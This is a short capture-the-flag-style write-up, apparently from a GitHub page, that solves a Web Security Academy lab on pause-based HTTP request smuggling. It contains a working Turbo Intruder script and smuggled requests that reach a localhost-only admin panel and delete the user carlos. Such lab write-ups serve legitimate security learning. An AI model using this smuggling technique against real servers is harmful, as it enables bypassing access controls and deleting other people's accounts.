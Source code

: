     def queueRequests(target, _):
        engine = RequestEngine(endpoint="https://0a6100130435171a83326e6e00af0010.web-security-academy.net:443",
                            concurrentConnections=1,
                            requestsPerConnection=100,
                            pipeline=False
                            )
        
        # attack request
        attack_request = """POST /resources HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Connection: keep-alive
    Content-Length: %s

    %s"""
    
        # smuggled request GET
        smuggled_request = """GET /hopefully404/ HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net

    """
    
        # normal request
        normal_request = """GET / HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net

    """
        engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\n'], pauseTime=61000)
        engine.queue(normal_request)
    
    
    def handleResponse(req, _):
        table.add(req)

After 61s, we got a response of `404 Not Found` which indicates the vulnerability. Change the smuggled request path to `/admin/` and restart the attack. Notice the response saying:

    Admin interface only available to local users

Change smuggled request `Host` header to `localhost` and restart the attack. This time we have successfully entered the admin interface and found the delete user endpoint. Change the smuggled request to (remember to add the cookie header found in the response):

    POST /admin/delete/ HTTP/1.1
    Host: localhost
    Cookie: session=siXpBIe68Z28SGbY6xgvPh4Pt0qVHPDl
    Content-Length: 53

    csrf=8xDdtqt7HC1P1Ah75XB4gyX4R7uxQjGF&username=carlos

After 61s, we successfully deleted user Carlos.